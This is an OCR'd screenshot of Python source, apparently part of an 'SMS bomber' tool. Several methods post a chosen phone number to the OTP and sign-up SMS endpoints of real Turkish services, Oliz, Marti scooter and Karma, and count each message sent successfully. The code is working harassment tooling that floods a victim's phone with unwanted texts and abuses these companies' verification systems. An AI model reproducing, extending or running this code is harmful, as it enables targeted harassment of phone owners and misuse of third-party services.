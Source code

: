     #oliz
    def oliz(self):
     try:
        url = "https://api.oliz.com.tr/api/otp/send"
        payload = {
            "mobile_number" : f"{self.phone}",
            "type" : None
        }
        r = requests.post(url=url, json=payload, timeout=5)
        r1 = json.loads(r.text)["meta"]["messages"]["success"][0]
        if r1 == "SUCCESS_SEND_SMS":
            print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> goyakit")
            self.adet += 1
        else:
            raise
     except:
        print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> goyakit")

    #marti
    def marti(self):
     try:
        url = "https://customer.martiscooter.com/v13/scooter/dispatch/customer/signin"
        payload = {
            "mobilePhone" : f"{self.phone}",
            "mobilePhoneCountryCode" : "90"
        }
        r = requests.post(url=url, json=payload, timeout=5)
        r1 = json.loads(r.text)["isSuccess"]
        if r1 == True:
            print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> goyakit")
            self.adet += 1
        else:
            raise
     except:
        print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> goyakit")

    #karma
    def karma(self):
     try:
        url = "https://api.gokarma.app/v1/auth/send-sms"
        payload = {
            "phonenumber" : f"90{self.phone}",
            "type" : "REGISTER",
            "deviceId" : f"{''.join(random.choices(string.ascii_lowercase + string.digits, k=16))}",
            "language" : "tr-TR"
        }
        r = requests.post(url=url, json=payload, timeout=5)

        if r.status_code == 201:
            print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> goyakit")
            self.adet += 1
        else:
            raise
     except:
        print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> goyakit")
